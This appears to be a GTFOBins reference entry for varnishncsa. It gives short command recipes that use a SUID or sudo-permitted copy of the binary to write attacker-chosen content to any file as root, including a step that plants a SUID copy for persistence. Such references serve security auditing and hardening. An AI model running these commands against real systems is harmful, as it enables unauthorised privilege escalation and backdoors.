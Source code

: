 # GTFOBin: varnishncsa

This allows to write arbitrary files as root, provided that the proper HTTP response is made. Specifically the content of a certain header will be written in the file. First start `varnishncsa` as follows, then trigger the file write with:

```
curl -H 'yyy: DATA' http://localhost:6081/xxx

```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which varnishncsa) .

LFILE=file_to_write
./varnishncsa -g request -q 'ReqURL ~ "/xxx"' -F '%{yyy}i' -w "$LFILE"
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_write
sudo varnishncsa -g request -q 'ReqURL ~ "/xxx"' -F '%{yyy}i' -w "$LFILE"
```